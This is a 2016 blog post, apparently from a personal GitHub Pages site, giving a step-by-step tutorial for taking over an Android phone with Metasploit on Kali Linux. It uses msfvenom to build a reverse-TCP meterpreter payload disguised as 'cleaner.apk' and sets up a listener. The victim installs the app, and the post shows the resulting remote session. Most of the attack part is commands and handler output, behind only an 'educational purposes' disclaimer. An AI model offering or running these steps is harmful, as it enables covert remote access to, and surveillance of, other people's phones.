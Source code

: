 ```yaml
---
layout: post
title: "How to hack an Android Device"
date: 2016-05-24
subtitle: "A tutorial for hacking an android device using Metasploit Framework on Kali Linux."
categories: [foss, tutorial, 2016]
permalink: /hack-an-android/
---
```


This is a tutorial for hacking an android using Metasploit Framework.

*Note: This tutorial is for educational purposes I'm not responsible for any misuse of it.*

## Requirements:
<br />
* Kali Linux
* Metasploit Framework installed.

*Note: This can be done on other distros with Metasploit package but Kali Linux gives favourable environment with all packages pre-installed.*

## Steps:
<br />
* Create an android apk file using msfvenom.
```bash
$ msfvenom -p android/meterpreter/reverse_tcp LHOST="IP ADDR"
 LPORT=4444 R > cleaner.apk
```
*Note: Replace IP ADDR with your ip address.*

* Fire up msfconsole
```bash
$ msfconsole
```
* To listen to the payload, setup a handler.
```bash
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD android/meterpreter/reverse_tcp
```

* Check its configurations.
```bash
msf exploit(handler)> show options
```

* Set the LHOST and LPORT you specified earlier using these commands.
```bash
msf exploit(handler)> set LHOST "IP ADDR"
msf exploit(handler)> set LPORT 4444
```

* Start the exploit
```bash
msf exploit(handler)> exploit
```
You need to transfer the apk file we generated previously to the testing phone and install it. Once that app is opened in the phone meterpreter session will start.
```bash
[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Starting the payload handler...
[*] Sending stage (63194 bytes) to 192.168.0.106
[*] Meterpreter session 1 opened (192.168.0.100:4444 ->
 192.168.0.106:35897) at 2016-055-24 _05:30
meterpreter >
```
* Done!

* For options use this
```bash
meterpreter > help
```
